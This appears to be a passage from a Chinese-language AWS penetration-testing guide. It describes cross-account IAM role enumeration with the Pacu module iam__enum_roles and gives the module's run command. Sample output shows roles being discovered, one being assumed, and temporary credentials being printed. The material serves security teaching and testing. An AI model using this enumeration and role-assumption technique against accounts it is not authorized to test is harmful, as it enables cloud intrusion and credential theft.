 输出显示，从我们修改后的单词列表中的七次猜测中找到了两个有效用户。在撰写本文时，Pacu 使用的默认单词列表有 1,136 个名称。

# 枚举角色

以前可以使用类似的攻击来枚举另一个 AWS 账户中存在的角色，如果只需要 AWS 账户 ID，那么我们基本上可以暴力破解所有存在的角色。由于 Rhino Security Labs 发布后，AWS 已经修改了 STS `AssumeRole` API 调用从 API 返回的错误消息，这意味着不再可能使用这种方法确定角色是否存在。`iam__enum_assume_role` Pacu 模块旨在利用此功能，但由于此更改，它不再起作用。

另一方面，发现了一种新方法，允许您跨账户基础上枚举角色。这种方法与用于枚举跨账户用户的方法相同。最初，这种方法的工作方式与现在不同，但必须进行了一些 API 更改，现在使得这种枚举成为可能。编写了一个新的 Pacu 模块来滥用这种攻击向量，它被命名为`iam__enum_roles`。它的工作方式与`iam__enum_users`模块完全相同，因此可以使用基本相同的命令运行：

```
 run iam__enum_roles --account-id 000000000000 --role-name TestRole 
```

该模块将枚举目标帐户中存在的角色，然后尝试假定这些角色以检索临时凭证，如果其策略配置错误并允许您访问。该模块的一部分如下：

```
Pacu (Spencer:imported-default) > run iam__enum_roles --account-id 000000000000 --role-name TestRole 
  Running module iam__enum_roles... 
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they 
are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles! 

[iam__enum_roles] Targeting account ID: 000000000000 

[iam__enum_roles] Starting role enumeration... 

[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Found 3 role(s): 

[iam__enum_roles]     arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]     arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]     arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials... 

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour... 

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::000000000000:role/CodeDeploy 

[iam__enum_roles] { 
  "Credentials": { 
    "AccessKeyId": "ASIATR17AL2P90OB3U6Z", 
    "SecretAccessKey": "nIll8wr/T60pbbeIY/hkqRQlC9njUzv3RKO3qznT", 
    "SessionToken": "FQoGAR<snip>iC/aET", 
    "Expiration": "2019-01-16 20:32:08+00:00" 
  }, 
  "AssumedRoleUser": { 
    "AssumedRoleId": "AROAJ9266LEYEV7DH1LLK:qw9YWcRjmAiunsp3KhHM", 
    "Arn": "arn:aws:sts::000000000000:assumed-role/CodeDeploy/qw9YWcRjmAiunsp3KhHM" 
  } 
} 
[iam__enum_roles] iam__enum_roles completed. 

[iam__enum_roles] MODULE SUMMARY: 
```